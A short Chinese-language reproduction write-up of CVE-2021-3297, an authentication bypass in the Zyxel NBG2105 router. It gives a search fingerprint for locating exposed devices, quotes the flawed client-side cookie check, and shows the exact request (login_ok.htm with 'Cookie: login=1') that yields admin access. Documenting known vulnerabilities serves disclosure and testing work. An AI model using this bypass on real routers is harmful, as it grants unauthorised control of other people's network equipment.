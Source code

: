 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

<a-checkbox checked>Zyxel NBG2105</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ZyXEL-NBG2105"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/zyxel-5.png)



其中前端文件 `/js/util_gw.js` 存在前端对 Cookie login参数的校验



![img](../../../.vuepress/public/img/zyxel-6.png)



可以看到检测到 Cookie中的 `login=1` 则跳转 home.html



```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```



请求如下则会以管理员身份跳转到 `home.htm页面`



```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```



![img](../../../.vuepress/public/img/zyxel-7.png)



## 